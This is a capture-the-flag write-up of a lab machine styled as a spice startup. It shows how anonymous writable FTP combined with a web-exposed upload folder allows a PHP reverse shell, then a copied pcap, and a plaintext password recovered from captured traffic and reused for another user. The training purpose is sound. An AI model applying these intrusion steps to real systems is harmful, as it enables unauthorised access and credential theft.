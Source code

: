 # Startup
Abuse traditional vulnerabilities via untraditional means.

---

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---

## Resolution

Nmap scan
```
sudo nmap -sV -sC 10.10.30.21 -Pn -n
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 22:53 CET
Nmap scan report for 10.10.30.21
Host is up (0.038s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.196.149
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Able to connect anonymously to the ftp server:
```
ftp 10.10.30.21
Connected to 10.10.30.21.
220 (vsFTPd 3.0.3)
Name (10.10.30.21:elomarii): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||34705|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

Content of notice.txt
```
cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
The meme we're talking about `important.jpg`
![important](https://github.com/elomarii/CTF_4_DAY/assets/106914699/9b8c7cb6-ff1b-491c-98d3-14e77a032c67)

Web app fuzzing:
```
ffuf -w ~/Downloads/common.txt:FUZZ -u http://10.10.30.21/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.30.21/FUZZ
 :: Wordlist         : FUZZ: /home/elomarii/Downloads/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

files                   [Status: 301, Size: 310, Words: 20, Lines: 10]
```

The `/files` allows us to access the files of the ftp server.
We can upload our shell to the server and then include it from the web app to achieve RCE.
Note that uploading the file to the main directory will not succeed. This is possible, however, in the `ftp` folder.

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||21801|)
553 Could not create file.

ftp> cd ftp
250 Directory successfully changed.

ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||22501|)
150 Ok to send data.
100% |*************************************************|   732        9.06 MiB/s    00:00 ETA
226 Transfer complete.
732 bytes sent in 00:00 (8.78 KiB/s)
```

You can use whatever php file to get a reverse shell back to your machine.
Now that we have access to the machine, we find the recipe in the root directory:
```

www-data@startup:/$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <flag>.
```

Navigating to the home directory, we found the home folder of the user *lennie* but we don't have permissions to access it.
Back to the root folder, we notice a suspicious folder `incidents` containing a suspicious `pcap` file:
```
www-data@startup:/incidents$ ls -l

total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

To get this file, we can copy it to the location of our ftp server and then download it on our local machine.
```
www-data@startup:/$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/ec9272e5-6970-440f-b838-88c0d1db05d8)


Opening the capture in Wireshark and looking at the statistics, we notice that the before last communication is the one that produces the majority of the traffic.
We apply the IP addresses as filters and then we follow the TCP stream to see what has been exchanged in the communication.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/a9ed5665-1058-4c64-aac2-fd3c151b4659)

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/b6ac0d9e-6c73-4e73-a9d7-94bccb69b2ff)

The capture catches a connection of a user *vagrant* using a reverse shell the same way we did to get access to the machine. *vagrant* tried to access *lennie*'s home directory unsuccessfuly and then tried to list files that can be run as root without need of a password.
What's interesting is the password *vagrant* used in the process: `c4ntg3t3n0ughsp1c3`. This can be a password of someone else. Luckily this is the password of *lennie*.




